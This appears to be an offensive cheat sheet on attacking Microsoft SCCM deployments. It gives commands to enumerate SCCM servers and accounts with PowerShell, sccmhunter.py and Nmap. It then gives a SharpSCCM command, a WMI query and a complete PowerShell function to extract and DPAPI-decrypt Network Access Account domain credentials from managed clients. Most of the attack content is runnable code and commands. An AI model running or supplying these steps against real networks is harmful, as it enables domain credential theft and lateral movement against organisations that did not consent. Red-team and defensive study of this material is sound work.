 # SCCM
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    

## Enumeration
On a SCCM managed endpoint, you can find the Configuration Manager client in the Control Panel, where you can find the configuration (e.g. Site Server and Site Name).
If you do not have access to such a managed client, there are other ways:   
- Using PowerShell ADSI: `([adsisearcher]"(objectClass=mSSMSManagementPoint)").FindAll().properties`
- Using sccmhunter.py ( ) : `python3 sccmhunter.py find -u username -p 'pass' -d domain.local -dc-ip dc1.domain.local` 
- List SCCM accounts using sccmhunter.py: `python3 sccmhunter.py show -users`
- List SCCM computers using sccmhunter.py: `python3 sccmhunter.py show -computers`

Identifying SCCM servers from portscans (Nmap):    
- 8530, 8531, 10123 (Site Server, Management Point)
- 49152-49159 (Distribution Point)
- UDP 4011 (Operating System Deployment)
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) **after client is uninstalled or account rotation**

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

**Decrypt Credentials**   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
